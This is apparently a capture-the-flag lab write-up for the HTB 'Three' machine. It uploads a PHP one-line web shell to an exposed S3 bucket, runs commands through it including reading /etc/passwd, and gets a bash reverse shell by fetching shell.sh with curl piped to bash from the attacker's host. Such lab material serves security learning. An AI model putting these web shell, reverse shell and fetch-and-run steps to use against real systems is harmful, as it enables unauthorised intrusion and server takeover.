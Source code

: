 ## Upload a PHP One-Liner to Test Command Execution
- Remember: the index page is .php, so you know php is running on the site.
```
# Created gk.php with the following: 
<?php system($_GET["gkvar"]); ?>

# Uploaded with awscli: 
aws --endpoint-url http://s3.thetoppers.htb s3 cp gk.php s3://thetoppers.htb/
## Results:
upload: ./gk.php to s3://thetoppers.htb/gk.php                   

# Check the Upload: 
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb        
## Results: 
                           PRE images/
2024-02-27 19:57:03          0 .htaccess
2024-02-27 20:34:30         32 gk.php        <--- there it is; good to go
2024-02-27 19:57:03      11952 index.php
```

- In the browser: 

```
http://thetoppers.htb/gk.php?gkvar=uname%20-a
# Result: 
Linux three 4.15.0-189-generic #200-Ubuntu SMP Wed Jun 22 19:53:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

http://thetoppers.htb/gk.php?gkvar=cat%20/etc/passwd
# Result: dumped the /etc/passwd file
```

- Conclusion: We can execute arbitrary commands on the target.

## Reverse Shell (PHP)

- Create a file containing a Bash one-liner for a reverse shell: `shell.sh`

```
#!/bin/bash
bash -i &> /dev/tcp/10.10.14.42/1234 0>&1
```

- Start a listener on the attack machine: 

```
nc -nvlp 1234
```

- Spin up a web server to host the `shell.sh` file: 

```
python3 -m http.server 8888
```

- Use your PHP one-liner to send a `curl` command to the target, and use curl to transfer the `shell.sh` file to the target, pipe it to `bash` so Bash will execute it: 
```
http://thetoppers.htb/gk.php?gkvar=curl%20http://10.10.14.42:8888/shell.sh%20|%20bash
```
